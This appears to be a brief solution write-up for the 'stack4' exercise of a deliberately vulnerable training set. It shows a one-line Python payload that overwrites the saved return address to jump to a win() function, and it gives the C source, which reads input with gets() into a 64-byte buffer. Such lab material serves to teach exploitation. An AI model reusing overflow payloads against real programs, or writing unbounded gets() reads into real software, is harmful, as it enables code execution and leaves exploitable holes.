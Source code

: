 ```shell
python -c 'print "1"*76 + "\xf4\x83\x04\x08"' | ./stack4
```

## Source code

```c
#include <stdlib.h>
#include <unistd.h>
#include <stdio.h>
#include <string.h>

void win()
{
  printf("code flow successfully changed\n");
}

int main(int argc, char **argv)
{
  char buffer[64];

  gets(buffer);
}
```

